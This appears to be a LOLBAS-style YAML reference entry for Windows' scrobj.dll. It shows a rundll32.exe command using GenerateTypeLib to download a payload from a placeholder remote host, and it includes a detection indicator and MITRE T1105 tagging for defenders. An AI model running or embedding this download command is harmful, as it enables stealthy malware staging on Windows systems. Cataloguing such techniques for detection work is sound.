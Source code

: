 ```yaml
---
Name: Scrobj.dll
Description: Windows Script Component Runtime
Author: Eral4m
Created: 2021-01-07
Commands:
  - Command: rundll32.exe C:\Windows\System32\scrobj.dll,GenerateTypeLib http://x.x.x.x/payload.exe
    Description: Once executed, rundll32.exe will download the file at the URL in the command to %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE\<random>\payload[1].exe.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\scrobj.dll
  - Path: c:\windows\syswow64\scrobj.dll
Detection:
  - IOC: Execution of rundll32.exe with 'GenerateTypeLib' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479106975967240209
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```

